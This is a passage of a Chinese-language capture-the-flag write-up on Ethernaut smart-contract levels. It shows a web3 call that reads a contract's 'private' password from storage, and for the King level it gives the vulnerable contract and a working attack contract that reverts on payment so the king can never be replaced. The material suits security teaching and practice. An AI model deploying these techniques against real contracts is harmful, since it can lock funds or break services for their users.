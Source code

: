 主要就是猜密码，看起来密码被private保护，不能被访问到，但是其实区块链上所有东西都是透明的，只要我们知道它存储的地方，就能访问到查询到。

使用web3的storageat函数即可查询到特定位置的数据信息。

```solidity
web3.eth.getStorageAt(contract.address, 1, function(x, y) {alert(web3.toAscii(y))});
```

## king

### 题目

合同代表一个非常简单的游戏：谁给它发送了比当前奖金还大的数量的以太，就成为新的国王。在这样的事件中，被推翻的国王获得了新的奖金，但是如果你提交的话那么合约就会回退，让level重新成为国王，而我们的目标就是阻止这一情况的发生。

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

### 分析

主要看receive函数，逻辑是先转账然后再更新king和prize，所以说，如果我们使得程序断在接受上，即可使得king不被更新。

所以代码是这样：

```solidity
pragma solidity ^0.6.0;

contract attack{
    constructor(address _addr) public payable{
        _addr.call{value : msg.value}("");
    }
    receive() external payable{
        revert();
    }
}
```
